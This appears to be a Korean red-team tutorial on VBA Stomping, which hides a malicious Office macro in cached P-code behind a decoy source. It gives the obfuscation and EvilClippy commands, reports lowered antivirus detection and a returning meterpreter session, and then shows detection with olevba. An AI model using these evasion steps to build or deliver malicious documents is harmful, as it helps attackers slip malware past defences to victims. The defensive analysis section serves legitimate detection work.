

# VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.&#x20;

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:&#x20;

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태&#x20;
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다.&#x20;
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.&#x20;

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,&#x20;

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면&#x20;

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.&#x20;

### 실습&#x20;

[오피스 VBA 매크로 페이지](vba-macros.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.&#x20;

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.&#x20;

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.&#x20;

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.&#x20;

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.&#x20;

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```


VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.&#x20;

 (1) (1) (1).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.&#x20;

 (1) (1) (1).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

 (1).png>)


이후 페이로드를 실행하면 meterpreter가 돌아온다.&#x20;



### 분석/대응 방안&#x20;

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.&#x20;

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.&#x20;

 (1) (2).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.&#x20;

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.&#x20;

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다.&#x20;

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.&#x20;

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```


### 레퍼런스&#x20;












